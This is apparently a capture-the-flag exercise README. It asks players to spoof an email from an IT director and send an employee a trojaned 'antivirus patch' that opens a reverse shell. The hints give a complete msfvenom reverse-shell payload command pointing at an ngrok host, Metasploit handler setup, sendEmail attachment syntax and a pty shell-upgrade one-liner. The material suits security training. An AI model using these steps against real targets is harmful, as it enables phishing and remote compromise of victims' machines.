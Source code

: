 # Social Engineering Challenge 3

----------------------

For this one, we're going to target Kylo Solo's trust in his boss, IT Director Scotty LaForge.

Your goal is to send an email TO Kylo Solo, FROM his boss Scotty, with an evil attachment. You should say the attachment is a patch Kylo needs to run to update his antivirus, or some such thing. 

Your attachment should be booby-trapped; it should grant you access to his machine using a reverse shell, or some such thing.

Frank Johnson (Chief Security Officer, Veritas Inc.)

NOTE - Kylo is super eager to please his boss. He will immediately open and run all attachments you send him. In this case, he doesn't have java/flash/a pdf reader installed, so you should probably send him a binary. Note that he's running a linux x64 machine.

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
  
  msfvenom (which is installed on Kali linux) is an app that lets you craft a binary for any target OS/architecture. For Kylo, be sure to target x64 architecture and the linux platform. 
  
  ```
  msfvenom --platform linux -p linux/x64/shell/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19358 -b "\x00" -f elf > ~/Desktop/runme
  ```

</details>

<details> 
  <summary>Click for hint 2</summary>
  If you use a shell/reverse_tcp exploit, you will need a publicly visible LHOST and LPORT (ngrok is great for that) when crafting the binary with msfvenom. Use something like `./ngrok tcp 443` to get your publicly available LHOST and LPORT.
  
  Then when using msfconsole to listen for the exploit's response, your LHOST and LPORT values there will be your localhost ones that ngrok points to - so LHOST for msfconsole should be 127.0.0.1 and LPORT 443. To get started in msfconsole, run `use exploit/multi/handler` and set your payload to the same one you ran in msfvenom - that should set it up to listen properly.
</details>

<details> 
  <summary>Click for hint 3</summary>
  To add an attachment in sendEmail, all you have to do is this: `-a "/root/Desktop/runme"` where runme is the executable file you want attached.
</details>

<details> 
  <summary>Click for hint 4</summary>
  If you obtained a shell to the remote server by using a reverse/tcp payload, it's not very pretty - make it more functional and pretty by running this in it:
  
  ```
  python -c "import pty; pty.spawn('/bin/bash');"
  ```
</details>



